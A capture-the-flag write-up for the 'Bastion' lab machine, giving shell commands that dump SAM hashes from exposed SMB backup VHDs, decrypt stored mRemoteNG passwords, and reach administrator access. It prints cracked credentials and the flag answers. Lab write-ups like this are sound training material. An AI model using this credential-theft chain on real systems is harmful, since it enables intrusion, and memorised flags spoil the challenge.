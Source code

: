 # Bastion - Easy

```shell
nmap -T4 -p- -A -Pn -v 10.10.10.134

smbclient -L \\\\10.10.10.134

smbclient \\\\10.10.10.134\\backups
#get all files of interest

recurse
#recurse mode smbclient

ls
#shows all files in all directories
#most of them are just backup files

#attempt to browser vhd files
sudo apt-get install libguestfs-tools cifs-utils

sudo su
#switch to root user as we will be in /mnt

mkdir /mnt/remote

mkdir /mnt/vhd

cd /mnt/remote

mount -t cifs //10.10.10.134/backups /mnt/remote -o rw

cd /mnt/remote/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351

ls -la
#we can take a look at the bigger vhd file

guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd -v
#mount to /mnt/vhd

cd /mnt/vhd

ls -la

cd Users\L4mpje

#we can go through user files, but nothing important
find Desktop Documents Downloads -ls
#prints all files in these folders

#get local SAM database from vhd
cd /mnt/vhd/Windows/System32/config

cp SAM SYSTEM /home/sv/

exit
#exit and unmount everything

umount -l remote

umount -l vhd

cd

#now we can extract hashes
impacket-secretsdump -sam SAM -system SYSTEM local
#this gives us hashes, we can crack L4mpje hash using online services

ssh l4mpje@10.10.10.134

#get user flag

systeminfo
#access denied

whoami /priv

wmic product get name,version
#access denied

set
#view all env variables

#list installed programs
powershell -c "Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime"

powershell -c "Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name"

#check mRemoteNG passwords
cd C:\Users\L4mpje\AppData\Roaming\mRemoteNG

dir

type confCons.xml
#get the stored hash

#in attacker machine
#download the mRemoteNG decryptor script from GitHub
#run the Python script with found hash
python3 mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
#cracks the hash

ssh administrator@10.10.10.134
#get root flag
```

* Open ports & services:

  * 22 - ssh - OpenSSH
  * 135 - msrpc - Microsoft Windows RPC
  * 445 - microsoft-ds - Windows Server 2016 Standard 14393
  * 5985 - http - Microsoft HTTPAPI httpd 2.0
  * 47001 - http - Microsoft HTTPAPI httpd 2.0
  * 49664-49670 - msrpc - Microsoft Windows RPC

* Enumerating SMB shares (port 445) shows that we have a Backups share that can be accessed; we can get all files from the shares and check for anything interesting.

* The backup share has many .vhd files, could be a part of backups for the machine; we can attempt to browse through these files.

* We can mount the vhd files using ```guestmount```, and extract local SAM database from ```C:\Windows\System32\config```.

* After extracting hashes with the help of ```impacket-secretsdump```, we get hashes for Administrator, Guest and L4mpje; but we are only able to crack L4mpje's hash - it gives us the password 'bureaulampje'.

* We can SSH into the victim machine using l4mpje creds now, and get the user flag from Desktop.

* We can begin looking for clues via enumeration.

* Going through user files and privileges does not show anything interesting; we can check all installed programs on machine.

* Now, one of the installed programs that seems out of place is mRemoteNG; we can look into this.

* By Googling, we can see that mRemoteNG stores its passwords in ```confCons.xml```, which is located in the user's AppData directory.

* From this file, we can get the stored hash for the Administrator user.

* We also have a Python script found by Googling, and it can help us in decrypting mRemoteNG password hashes.

* The script is able to crack the hash and we get the password 'thXLHM96BeKL0ER2'.

* With this, we can log into SSH as Administrator and get root flag.

```markdown
1. User flag - 7b31c89daa51654995c1f66998d80816

2. Root flag - 313db8c8f420ff545ed707a3a5f9fe20
```
